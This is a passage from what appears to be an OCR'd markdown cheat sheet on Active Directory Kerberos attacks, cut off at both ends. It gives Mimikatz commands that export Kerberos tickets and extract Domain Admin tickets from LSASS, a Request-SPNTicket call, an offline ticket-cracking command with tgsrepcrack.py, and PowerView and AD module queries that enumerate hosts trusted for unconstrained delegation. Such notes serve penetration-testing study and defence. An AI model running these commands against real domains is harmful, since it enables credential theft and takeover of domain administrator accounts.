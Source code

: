 > > > > > > > 
> > > > > > > Invoke-Mimikatz -Command '"kerberose::list /export"'
> > > > > > > ```
> > > > > >
> > > > > > ***PowerView_Dev***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Request-SPNTicket
> > > > > > > ```
> > > > >
> > > > > ***Crack Password offline***
> > > > >
> > > > > > ```python
> > > > > > python tgsrepcrack.py WordlistDict.txt <TicketName>
> > > > > > ```
>
> :two:***​Kerberos  Delegation*** : re-user end-user credentials to access resources hosted on a different server 
>
> > :information_desk_person: Service Account must be trusted for delegation to be able to make requests as a user. 
> >
> > :information_desk_person: A mechanism is required to impersonate the incoming user and authenticate to the second hop server. 
> >
> > ***Unconstrained Delegation*** -- Double hopes Kerberos 
> >
> > > :information_desk_person: Allow Access to any service on any computer in the domain 
> > >
> > > :information_desk_person: User present TGT inside TGS to the first Server's service 
> > >
> > > :information_desk_person: DC make sure that the TGT account owner is not marked as sensitive or can't be delegated 
> > >
> > > :information_desk_person: Incase UNC-Delegation enabled, TGT extracted from TGS and Stored in LSASS, that's how the server can reuse the user's TGT to access any other resources
> > >
> > > :rotating_light: Compromise machine with unconstrained delegation and a Domain Admin connects to that machine; 
> > >
> > > ***Enumerate Domain computer with unconstrained delegation***
> > >
> > > > ***PowerView***
> > > >
> > > > > ```powershell
> > > > > Get-NetComputer -UnConstrained
> > > > > ```
> > > >
> > > > ***Active Directory Module***
> > > >
> > > > > ```powershell
> > > > > Get-ADComputer -Filter {TrustedForDelegation -eq $True}
> > > > > Get-ADUser -Filter {TrustedForDelegation -eq $True}
> > > > > ```
> > >
> > > ***Compromise The Machine***
> > >
> > > ***Extract Domain Admin Tokens*** 
> > >
> > > > ```powershell
> > > > Invoke-mimikatz -Command '"sekurlsa::tickets /export"'
> > > > ```
> > > >
> > > > ***Cron Job Watching logon***